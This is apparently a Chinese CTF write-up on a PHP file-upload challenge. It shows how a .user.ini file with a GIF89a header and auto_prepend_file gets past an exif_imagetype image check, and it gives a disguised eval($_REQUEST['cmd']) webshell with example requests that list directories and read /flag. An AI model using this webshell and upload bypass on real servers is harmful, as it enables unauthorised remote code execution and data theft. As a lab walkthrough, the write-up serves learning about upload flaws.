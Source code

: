 又是随便点开的一个，好在，是文件上传。
常规步骤之后，上传了`.htaccess`文件，不过发现被限制了。
返回了一个：
```SQL
exif_imagetype:not image!
```
<a href=https://www.php.net/manual/zh/function.exif-imagetype.php>exif_imagetype函数</a>
简单来说就是，上传文件白名单机制。
QAQ
新英雄登场
`.user.ini`文件
php目录配置文件，作用为：
>当我们访问目录中的任何php文件时，都会调用.user.ini中指的文件以php的形式进行读取。
文件内容为
```ini
GIF89a
auto_prepend_file=po.jpg
```
之后就可以常规步骤一顿操作。
这里也有了新一种方法`用传进去的cmd 进行rce`——其前提是传入的木马文件内容为：
```script
GIF89a 
<script language='php'>eval($_REQUEST['cmd']);</script>
```
然后
```cmd
uploads/xxx/index.php?cmd=var_dump(scandir("/")); // 扫描当前目录下的文件，并打印出来

uploads/xxx/index.php?cmd=system('cat /flag');

uploads/xxx/index.php?cmd=var_dump(file_get_contents("/flag"));
```




-----

ps：图片文件头前缀

```txt
JPG:FF D8 FF E0 00 10 4A 46 49 46（16进制编码）
GIF：47 49 46 38 39 61（ascll值是GIF89a）
PNG： 89 50 4E 47

```

<a href=https://www.cnblogs.com/zhiliu/p/16825982.html>参考一下</a>

php解析文件值得关注